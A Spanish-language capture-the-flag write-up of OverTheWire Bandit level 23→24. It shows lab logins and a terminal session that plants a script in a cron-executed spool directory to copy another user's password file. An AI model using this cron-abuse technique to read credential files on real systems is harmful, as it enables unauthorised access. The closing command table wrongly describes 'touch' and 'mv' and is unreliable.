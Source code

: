 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
ssh bandit23@bandit.labs.overthewire.org -p 2220
Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solución

```bash
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
bandit23@bandit:/$ mkdir /tmp/soje
bandit23@bandit:/$ cd /tmp/soje
bandit23@bandit:/tmp/soje$ echo "cat /etc/bandit_pass/bandit24 > /tmp/soje/password" > script.sh
bandit23@bandit:/tmp/soje$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/soje/password
bandit23@bandit:/tmp/soje$ chmod 777 script.sh
bandit23@bandit:/tmp/soje$ touch password
bandit23@bandit:/tmp/soje$ chmod 666 password
bandit23@bandit:/tmp/soje$ cp script.sh /var/spool/bandit24/foo

bandit23@bandit:/tmp/soje$ ls -la
total 10568
drwxrwxr-x   2 bandit23 bandit23     4096 Sep 18 17:03 .
drwxrwx-wt 189 root     root     10801152 Sep 18 17:08 ..
-rw-rw-rw-   1 bandit23 bandit23       33 Sep 18 17:08 password
-rwxrwxrwx   1 bandit23 bandit23       51 Sep 18 17:03 script.sh
bandit23@bandit:/tmp/soje$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

Nombre del script tiene que ser diferente
## Notas adicionales
|Comando|Descripción|
|---|---|
|mk temp|crea una carpeta con un nombre alaetorio|
|touch|crear carpeta|
|chmod|Cambiar permisos de archivos|
|mv|copiar un archivo|
## Referencias